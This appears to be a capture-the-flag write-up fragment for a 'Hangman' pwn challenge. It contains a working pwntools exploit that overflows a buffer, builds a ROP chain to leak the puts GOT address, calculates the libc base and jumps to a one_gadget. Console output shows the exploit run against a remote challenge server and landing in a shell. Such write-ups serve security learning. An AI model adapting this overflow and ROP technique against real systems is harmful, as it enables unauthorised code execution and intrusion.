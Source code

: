 ```python

# ------------- plan -----------
# overflow and leak puts got address
# jump to one gadget

def guess_word(word, clean_buffer=False):
	sh.sendlineafter('Enter choice: ', '2')
	sh.sendlineafter('Enter word: ', word)
	if clean_buffer:
		sh.sendlineafter('Enter choice: ', '10') # clean buffer


buffer_length = 32
payload = 'A' * buffer_length + 'z'
guess_word(payload, clean_buffer=True)

overflow_offset = 64
pop_rdi_ret = 0x4019a3
puts_got = e.got['puts']
puts_plt = e.sym['puts']
game_loop = e.sym['gameLoop']
payload = 'A' * overflow_offset + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) +  p64(game_loop)
guess_word(payload)


sh.recvuntil('Wrong...\n')
leak = u64(sh.recvline(keepends=False).ljust(8, '\x00'))
libc.address = leak - libc.sym['_IO_puts']
log.info('libc base: {}'.format(hex(libc.address)))


payload = 'A' * buffer_length + 'z'
guess_word(payload, clean_buffer=True)

one_gadget_offset = 0x10a38c
payload = 'A' * overflow_offset + p64(libc.address + one_gadget_offset)
guess_word(payload)

sh.interactive()
```



We'll run with the remote option:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_hexion/Hangman_DONE$ python exploit.py remote
[+] Opening connection to challenges1.hexionteam.com on port 3000: Done
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_hexion/Hangman_DONE/hangman'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] libc base: 0x7fc00ff72000
[*] Switching to interactive mode
Wrong...
$ ls
```